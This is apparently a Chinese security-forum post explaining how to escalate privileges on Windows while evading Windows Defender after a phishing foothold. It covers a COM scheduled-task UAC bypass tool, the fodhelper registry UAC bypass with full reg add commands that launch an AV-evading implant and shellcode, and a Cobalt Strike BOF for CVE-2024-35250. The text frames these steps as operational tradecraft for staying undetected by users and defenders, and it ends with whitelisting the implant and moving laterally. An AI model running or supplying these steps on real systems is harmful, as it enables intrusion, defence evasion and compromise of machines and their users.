









# 当前Defender防护下三种提权思路-先知社区

> **来源**: https://xz.aliyun.com/news/16953  
> **文章ID**: 16953

---

**0x01 前言**

最近打项目遇到一些需要提权的场景，研究了一下目前好用的一些绕过Windows Defender检测的提权方案，方法都是老方法，操作细节上有些变化。

**0x02钓鱼场景下提权**

在钓鱼场景中，通常会遇到以下情况：钓鱼上线到个人主机后，用户虽然在管理员组中，但未通过UAC（用户账户控制）。执行whoami /priv后，权限如下：



可以看到一般情况下并没有**SeImpersonatePrivilege**权限（模拟客户端权限），所以土豆家族（如Juicy Potato、God Potato等）提权都是用不了的，实测情况也确实如此，此外，漏洞提权通常需要特定Windows版本支持且未打补丁，也不一定适用。针对这种情况，**Bypass UAC提权**是最合适的选择。以下是两种实测绕过Defender检测的Bypass UAC方案。

**1.COM组件+计划任务绕过UAC**

原理一言蔽之就是有些com组件本身就可以自动提升到UAC权限，同时该组件自己也调用了计划任务，通过计划任务启动该组件从而绕过UAC。



详细原理感兴趣的可以参考链接：

```
https://www.zcgonvh.com/post/Advanced_Windows_Task_Scheduler_Playbook-Part.2_from_COM_to_UAC_bypass_and_get_SYSTEM_dirtectly.html
```

同时有师傅已将其集成为一键执行工具，不想深究原理的师傅也可以直接使用，项目地址为：

```
https://github.com/evilashz/PigScheduleTask/tree/main/ZcgonvhScheduleTask
```

加了个简单反沙箱编译之后使用效果如下：



**使用方法：**

* 第二个参数kc用于简单绕过沙箱，可根据需要修改源码。
* 第三个参数为执行的命令。



假如你在C2上操作，可以上传bypassUAC.exe，然后执行：

```
bypassUAC.exe kc 你的马子.exe
```

即可,若是分离加载运行的可以写一个run.bat脚本：xxx.exe shellcode.bin,第三个参数改为执行bat脚本即可。

**2.注册表键值bypass UAC**

本身也是个老方法了，不过试了一下还能用，c2上操作要有些注意点。

fodhelper.exe是一个具备autoElevate属性的微软自带工具，具有微软签名。该程序在执行过程中会将注册表HKCU:\Software\Classes\ms-settings\Shell\Open\command的内容当作命令执行。基本就是通过fodhelper白文件先提权再执行自己的马子。

详细原理网上一堆就不赘述了。直接上命令：

```
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /t REG_SZ /d "fodhelper.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f
fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /t REG_SZ /d "马子.exe shellcode.bin" /f
```

四句敲完在C2敲完直接上线一个绕过UAC的shell。注意你的马子要保证已经defender下能免杀才不会有任何提示，网上很多教程最后一步是：

```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /t REG_SZ /d "cmd" /f
```

这样defender是会拦截的，显示是bypassUAC行为，会引起用户警觉不够opensec，但是你如果执行的是你的免杀马子就不会。



以上两种方法需要用户在管理员组中，否则你直接执行会弹出需要你输入管理员密码的提示框，白瞎。

**3.CVE-2024-35250-BOF加载**

另外提一个去年的漏洞，虽然不像bypassUAC那样全版本可用但是也用得上，这是前段时间闹得沸沸扬扬github投毒的提权洞，目前github只剩下几个项目:



其中第一个是原始项目直接编译成exe会被defender杀爆，第二个是钓鱼投毒的，第三个是新写的bof，没有.suo文件，当然为了保险起见我还是放在虚拟机编译之后再还原镜像。

使用方法参考yinsel作者在issue里的开发日志：

```
https://blog.yinsel.top/%E5%8D%9A%E5%AE%A2/16-CVE-2024-35250%20CS%20BOF%E6%8F%90%E6%9D%83%E6%8F%92%E4%BB%B6%E5%BC%80%E5%8F%91%E8%AE%B0%E5%BD%95.html
```



使用方法是在cs中直接加载cna文件，无文件落地执行bof实现免杀，命令那里填你的马子即可获得绕过UAC的shell，至于支持的windows的版本的话参考漏洞源码：



作者在编写cna的时候定义了4个不同的系统偏移EPROCESS\_TOKEN\_OFFSET，分别编译生成了4个不同的.o文件，以供使用的时候选择。

我们可以看到，这个洞win10最高只支持到19042，现在win10基本都是19045的了，所以针对win10这个洞并不是很好用，win11基本会自动更新就更不好用了，所以说这个洞可能在server2012和2016上还是有搞头的。

另外用之前需要先执行systeminfo看一下有没有打上相应的补丁，毕竟是去年的洞。各版本漏洞补丁如下：



**0x03 结语**

* **前两种Bypass UAC方式**更适用于钓鱼场景，用户在管理员组的情况下。
* **CVE-2024-35250**在Web打点进入Windows Server服务器时更适用。

以上几种方式都能在Windows Defender开启的情况下提升权限，之后加个白名单就可以愉快地打内网了。
